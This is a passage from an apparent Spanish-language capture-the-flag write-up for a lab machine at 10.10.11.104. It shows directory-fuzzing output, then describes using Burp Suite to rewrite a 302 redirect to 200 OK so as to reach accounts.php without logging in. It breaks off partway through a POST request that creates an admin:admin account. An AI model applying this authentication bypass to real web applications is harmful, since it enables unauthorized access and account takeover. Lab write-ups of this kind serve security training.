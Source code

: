 ```bash

000000187:   200        31 L     60 W       1248 Ch     "nav"                                                                                                                                             
000000320:   200        5 L      14 W       217 Ch      "footer"                                                                                                                                          
000000004:   302        0 L      0 W        0 Ch        "download"                                                                                                                                        
000000002:   302        71 L     164 W      2801 Ch     "index"                                                                                                                                           
000000081:   302        112 L    263 W      4914 Ch     "files"                                                                                                                                           
000000751:   302        74 L     176 W      2966 Ch     "status"                                                                                                                                          
000000040:   200        53 L     138 W      2224 Ch     "login"                                                                                                                                           
000001212:   302        0 L      0 W        0 Ch        "logout"                                                                                                                                          
000001376:   302        93 L     238 W      3994 Ch     "accounts"                                                                                                                                        
000001477:   200        0 L      0 W        0 Ch        "config"                                                                                                                                          
000002258:   302        0 L      0 W        0 Ch        "logs"                                                                                                                                            
000000178:   200        20 L     64 W       980 Ch      "header"                                                                                                                                          
000045227:   403        9 L      28 W       277 Ch      "http://10.10.11.104/.php" 
```

Vemos que encontramos un 302 para recursos a nivel web, procedemos a usar Burpsuite para modificar la respuesta del Servidor de
302 a 200 OK

Probamos con el recurso encontrado `accounts.php`

```bash
Cambiamos la cabecera 302 Not Found --> 200 OK desde Burpsuite 
Inteceptando la respuesta del Servidor
```

Venmos que conseguimos entrar al recurso `accounts.php` saltandonos el panel login.
Procemos a crear un usuario llamado `admin:admin`
```bash
POST /accounts.php HTTP/1.1

Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://10.10.11.104
Connection: close
```